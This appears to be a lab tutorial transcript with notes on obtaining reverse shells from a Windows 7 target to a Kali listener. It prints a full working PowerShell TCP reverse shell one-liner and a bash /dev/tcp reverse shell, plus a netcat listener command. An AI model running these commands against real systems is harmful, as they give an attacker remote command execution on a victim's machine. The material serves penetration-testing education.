 Switch over to Windows 7 system.

And before we executed, there are a few changes that need to be made. Because if we paste this in here, it might work during the first run. And in some cases, you may need to specify that you want to execute `powershell.exe` on certain versions of Windows.

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Switch over to my Kali Linux VM.

We get a connection from the target, the Windows 7 system.

We get a PowerShell session. And we've successfully been able to obtain a reverse shell on the target system without Netcat being installed.

This is where you can start seeing the power of reverse shells as opposed to bind shells, where you need to have a Netcat listener on the target system.

```
PS C:\Users\Win7> whoami
PS C:\Users\Win7> systeminfo
```

Get information regarding the operating system itself.

You're not just limited to PowerShell. You also have the ability to compile your own executable that will connect to the listener.

This is your Windows C code that you can then compile. And the compilation process is the same as you would be if you are trying to compile or cross compile a Windows exploit.

# 复现视频内容
Windows 7 SP1: 192.168.213.131

Ubuntu: 192.168.213.132

Kali Linux: 192.168.213.128

[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
```


```
bash -i >& /dev/tcp/192.168.213.128/1234 0>&1
```
